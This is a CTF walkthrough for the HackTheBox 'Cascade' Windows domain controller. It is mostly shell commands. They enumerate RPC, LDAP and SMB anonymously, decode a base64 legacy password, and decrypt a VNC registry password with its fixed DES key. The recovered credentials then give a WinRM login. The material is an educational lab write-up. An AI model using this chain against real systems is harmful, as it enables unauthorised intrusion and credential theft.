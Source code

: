 ## Box Information
- **Platform:** HackTheBox
- **Operating System:** Windows Server 2008 R2 SP1
- **Domain:** cascade.local
- **Host:** CASC-DC1
- **Date Completed:** May 1, 2025

## Initial Enumeration & User Flag

### Commands

```bash
# Enumerating Open Services
nmap -p- --min-rate 5000 -vvv -n -Pn 10.10.10.182 -oG nmap/allPorts
extractPorts nmap/allPorts
nmap -sCV -p53,88,135,139,389,445,636,3268,3269,5985,49154,49155,49157,49158,49165 10.10.10.182 -oN nmap/detailed
sudo vim /etc/hosts # add cascade.local

# RPC ENUM
rpcclient -U '' -N 10.10.10.182
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
rpcclient $> enumprivs
rpcclient $> enumalsgroups domain

# SMB ENUM
netexec smb 10.10.10.182 -u '' -p '' --shares # NO SMB NULL

# LDAP ENUM
ldapsearch -H ldap://10.10.10.182 -x -b 'DC=cascade,DC=local' -s sub > ldap_sub.txt
ldapsearch -H ldap://10.10.10.182 -x -b 'DC=cascade,DC=local' -s base > ldap_base.txt
grep thomp -A 10 -B 10 ldap_sub.txt

# Found cascadeLegacyPwd field with a base64 encoded password
echo 'clk0bjVldmE=' | base64 -d # Password -> rY4n5eva
netexec smb 10.10.10.182 -u users -p 'rY4n5eva' --shares # Got a hit on r.thompson

# Data Share Enum
smbclient -U 'r.thompson' \\\\10.10.10.182\\Data
smb: \> dir
smb: \> cd IT
smb: \IT> cd "Email Archives"
smb: \IT\Email Archives> mget Meeting_Notes_June_2018.html
firefox Meeting_Notes_June_2018.html OR cat Meeting_Notes_June_2018.html

smb: \Temp\s.smith> cd ../Temp/s.smith
smb: \Temp\s.smith> mget * # just get the one file in there

cat 'VNC Install.reg' # Password field found, with a hex encoded password
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f

echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv

# Password is 'sT333ve2'
netexec winrm 10.10.10.182 -u 's.smith' -p 'sT333ve2' # Pwn3d!
```
